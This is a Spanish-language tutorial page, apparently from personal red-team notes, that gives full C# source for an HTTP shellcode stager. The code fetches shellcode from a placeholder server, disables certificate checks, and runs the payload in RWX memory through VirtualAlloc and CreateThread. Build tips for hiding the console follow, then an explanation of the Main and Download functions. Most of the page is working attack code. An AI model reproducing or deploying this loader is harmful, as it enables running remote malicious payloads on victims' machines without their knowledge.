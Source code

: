 # Stager HTTP C\#

## Código

{% code lineNumbers="true" %}
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;
using System.Net;

namespace stagerHttp
{
    class Program
    {
        public static void Main(String[] args)
        {
            byte[] shellcode = Download("http://<ip-shellcode-server>:<port>/<shellcode-filename>");
            Execute(shellcode);

            return;
        }

        private static byte[] Download(string url)
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;

            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            return shellcode;
        }


        [DllImport("kernel32")]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        private static void Execute(byte[] shellcode)
        {
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (UInt32)shellcode.Length, 0x1000, 0x40);
            Marshal.Copy(shellcode, 0, (IntPtr)(addr), shellcode.Length);


            IntPtr hThread = IntPtr.Zero;
            IntPtr threadId = IntPtr.Zero;
            hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, threadId);

            WaitForSingleObject(hThread, 0xFFFFFFFF);

            return;
        }
    }
}

```
{% endcode %}



## Configuración inicial

Para ocultar la consola hay que seleccionar este campo

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

Para compilar en 64 bytes:

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>



## Explicación

### Función Main

En este bloque lo que hacemos es almacenar lo que la función Download() devuelve en una variable para luego ejecutarla.

```csharp
public static void Main(String[] args)
        {
            byte[] shellcode = Download("http://<ip-shellcode-server>:<port>/<shellcode-filename>");
            Execute(shellcode);

            return;
        }
```



### Función Download

La primer linea de esta función se encarga de que cuando queramos descargar el shellcode no se fije en los errores producidos por https, que si bien podría funcionar sin esto, puede servir en otra situación.

{% embed url="https://learn.microsoft.com/en-us/dotnet/api/system.net.servicepointmanager.servercertificatevalidationcallback?view=net-7.0" %}

Después nos valemos del método **DownloadData()** para descargar como bytes el contenido de lo que le pasemos como url y posteriormente retornarlo.

```csharp
private static byte[] Download(string url)
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;

            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            return shellcode;
        }
```

